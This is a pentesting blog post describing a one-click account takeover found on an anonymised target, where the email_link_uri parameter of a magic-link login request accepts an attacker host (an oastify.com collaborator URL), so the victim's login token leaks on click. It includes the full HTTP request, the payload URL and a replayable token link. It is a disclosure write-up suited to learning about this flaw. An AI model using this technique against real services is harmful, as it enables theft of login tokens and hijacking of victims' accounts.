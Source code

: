 ```yaml
---
title: Magic Links as Gateways to Account Takeovers
author: sl4x0
image:
  path: /assets/images/pentesting/magic-links-flow.gif
date: 2024-03-04 23:00:00 +0800
categories: Pentesting
description: "How a Magic Link can be used to take over an account with a mistake on a single parameter"
tags: [ATO, Magic Links]
toc: true
---
```


﷽

Hello, today I will discuss a `1-Click ATO` bug that I encountered during a pen-test engagement. Let’s say the target name is: `host.io`.

## Starting with Sign-up

During the sign-up process, there are two methods of registration: signing up with a **non-existent** email address and signing up with an **existing** email address.

![Sign-up](/assets/images/pentesting/1.webp)

The first kind of sign-up is the normal one. You simply input your email address and click submit. A confirmation email will be sent to you to ensure that you are the owner of the email address. After confirming your email address, you will proceed to insert your information and complete the account creation process (name, company name, etc.).

### Signing up with an existing Email

The second option only works when you check the circle next to the sentence “I will be joining an existing `Host` account.” This option entails two scenarios:

**First**: If you have already registered with an account, you will be sent an email containing a magic link that allows you to log in directly without needing a password.

**Second**: If you have not registered with the email before, you will simply confirm your email and complete the sign-up process as mentioned above.

However, our focus is primarily on the **first scenario**!

## The Misused Parameter

```http
POST /account/v2/auth/magiclink/email/ HTTP/2
Host: sub.host.io
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:123.0) Gecko/20100101 Firefox/123.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://app.host.io/
Content-Type: application/json
Content-Length: 192
Origin: https://app.host.io
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-site
Te: trailers

{"email":"myFirend@email.com","referral_code":null,"email_link_uri":"https://host.io","require_ad_spend":false,"account_type":"Standard"}
```

Upon sending this request I observed two things: first the `email_link_uri` parameter and second the response itself.

![Response](/assets/images/pentesting/2.webp)

The response received after investigation is not the token located on the magic link sent to the victim, which enables them to log in. The magic link that enables the victim to log in is structured as follows:

```http
https://host.io/?login_token=[different_token]&account_type=Standard&require_ad_spend=False
```

This link contains a `unique login token` different from the one located in the response. The Trick here is how we can leak the token that was sent to the victim.

Remember the `email_link_uri` parameter? I tried manipulating it so I could hold the Collaborator link instead of the website URL itself. However, I encountered a weird response.

![Response](/assets/images/pentesting/3.webp)

That triggers the `CORS Misconfiguration Bypasses` inside my head 😄.

I tried to add the link below:

```http
https://host.io.muk4beh062sbtx1v86cglfhd74dx1npc.oastify.com
```

And hell yeah! It succeeded!

![Response](/assets/images/pentesting/4.webp)

And the link that was sent to the victim looks like this one:

![Response](/assets/images/pentesting/5.webp)

Now, When the victim clicks on this link he will just go my collaboration server and the victim login token will be sent to my server as below:

![Response](/assets/images/pentesting/6.webp)

Now you can just remove the collaborator server and leave the URL as below to takeover the victim account:

`https://host.io/?login_token=5c0cdce5658eae411247e6cfb015c7906088ff2b&account_type=Standard&require_ad_spend=False`

In summary, always inspect every parameter in important requests like reset password, email change, set password, etc. It may uncover vulnerabilities that you couldn’t imagine existed. Thank you for reading, and you can follow me on Twitter: [@sl4x0](https://twitter.com/sl4x0).
